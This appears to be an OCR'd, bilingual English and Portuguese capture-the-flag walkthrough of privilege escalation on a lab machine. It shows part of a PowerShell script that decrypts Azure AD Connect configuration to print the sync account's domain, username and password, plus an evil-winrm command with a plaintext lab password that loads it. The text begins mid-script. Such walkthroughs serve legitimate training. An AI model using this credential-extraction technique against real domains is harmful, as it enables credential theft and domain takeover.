     The -s flag in Evil-WinRM allows us to specify a folder containing PowerShell scripts. We can load a script
    in memory within the Evil-WinRM session by typing the script name and hitting return.
    This was successful, and we have obtained credentials for the AD Connect Sync account. In this case, as it
    was a custom install, it seems the primary domain administrator was used for this. It's worth noting that a
    default installation uses the NT SERVICE\ADSync service account.
    Let's use Evil WinRM to connect as the administrator.
    $key2.DecryptBase64ToString($crypted, [ref]$decrypted)
    $domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']"
    | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
    $username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']"
    | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
    $password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name =
    'Password'; Expression = {$_.node.InnerXML}}
    Write-Host ("Domain: " + $domain.Domain)
    Write-Host ("Username: " + $username.Username)
    Write-Host ("Password: " + $password.Password)
    }
    ```
    
    A flag `-s` no Evil-WinRM permite especificar uma pasta contendo scripts do PowerShell. Podemos carregar um script na memória dentro da sessão Evil-WinRM digitando o nome do script e pressionando Enter.
    
    `evil-winrm -i 10.10.10.172 -u mhope -p "4n0therD4y@n0th3r$" -s . adconnect.ps1`
    `Get-ADConnectPassword`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%204.png)
    
    A operação foi bem-sucedida e obtivemos credenciais para a conta de sincronização do AD Connect. Neste caso, como foi uma instalação personalizada, parece que o administrador do domínio principal foi usado para isso. É importante notar que uma instalação padrão usa a conta de serviço NT SERVICE\ADSync.
    